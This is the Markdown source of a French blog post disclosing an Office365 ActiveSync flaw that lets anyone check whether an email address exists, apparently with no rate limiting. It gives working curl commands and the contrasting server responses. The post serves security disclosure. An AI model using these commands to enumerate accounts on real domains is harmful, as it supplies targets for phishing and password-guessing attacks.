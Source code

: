 ```yaml
---
layout: post
title: Office365 / Fuite de données : Enumération d'adresses mail valides
tags: [Office365 Sécurité Cloud]
---
```


Le service ActiveSync d'Office365 présente une faille permettant de vérifier la validité des adresses mail d'un domaine (si l'adresse mail est utilisée en tant qu'identifiant). Les retours HTTP sont en effet différents en fonction de l'exitence ou non d'un identifiant spécifique.

Ce problème a initialement été signalé ici : https://www.sec-1.com/blog/2017/office365-activesync-username-enumeration

Prévenu par l'auteur fin Juin 2017, Microsoft n'a pas jugé ce problème suffisamment critique pour prévoir un correctif.

L'url Activesync https://outlook.office365.com/Microsoft-Server-ActiveSync ne semble par ailleurs pas être protégée par un système de throttling permettant d'éviter les requêtes trop nombreuses sur une période donnée.

## Exemple

**Adresse e-mail valide (prenom.nom@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom@mondomaine.fr:motdepassebidon' | base64); curl -v -X OPTIONS -H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" -H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" -H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync 2>&1 | grep "X-CasErrorCode"
<pas de retour>
```

**Adresse e-mail inexistante (prenom.nom.bidon@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom.bidon@mondomaine.fr:motdepassebidon' | base64); curl -v -X OPTIONS -H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" -H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" -H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync 2>&1 | grep "X-CasErrorCode"
< X-CasErrorCode: UserNotFound
```

